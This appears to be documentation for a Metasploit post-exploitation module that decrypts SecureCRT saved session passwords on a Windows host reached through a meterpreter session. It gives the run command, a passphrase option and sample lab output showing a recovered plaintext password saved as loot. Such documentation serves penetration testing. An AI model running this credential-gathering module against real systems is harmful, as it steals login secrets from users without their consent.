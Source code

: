 ## Vulnerable Application

This module can decrypt the SecureCRT, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).

  You can find its official website [here](https://vandyke.com/).

## Verification Steps

  1. Download the latest installer of SecureCRT.
  2. Use SecureCRT to login to ssh.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/securecrt```
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

 **Passphrase**

  - Specify user's master password, e.g.:123456'

## Scenarios

```
[*] Gather Securecrt Passwords on WIN-LHC82CUIV7U
[*] Search session files on C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
[-] Maybe the user has set the passphrase, please try to provide the [Passphrase] to decrypt again.
Securecrt Password
==================

Filename          Hostname      Port  Username   Password
--------          --------      ----  --------   --------
192.168.56.1.ini  192.168.56.1  22    kali-team  

[+] Passwords stored in: /home/kali-team/.msf4/loot/20200911115103_default_10.0.2.15_host.securecrt_p_489607.txt

```

* Specify **Passphrase**

```
meterpreter > run post/windows/gather/credentials/securecrt Passphrase=123456

[*] Gather Securecrt Passwords on WIN-LHC82CUIV7U
[*] Search session files on C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
Securecrt Password
==================

Filename          Hostname      Port  Username   Password
--------          --------      ----  --------   --------
192.168.56.1.ini  192.168.56.1  22    kali-team  123456789

[+] Passwords stored in: /home/kali-team/.msf4/loot/20200911115118_default_10.0.2.15_host.securecrt_p_954887.txt

```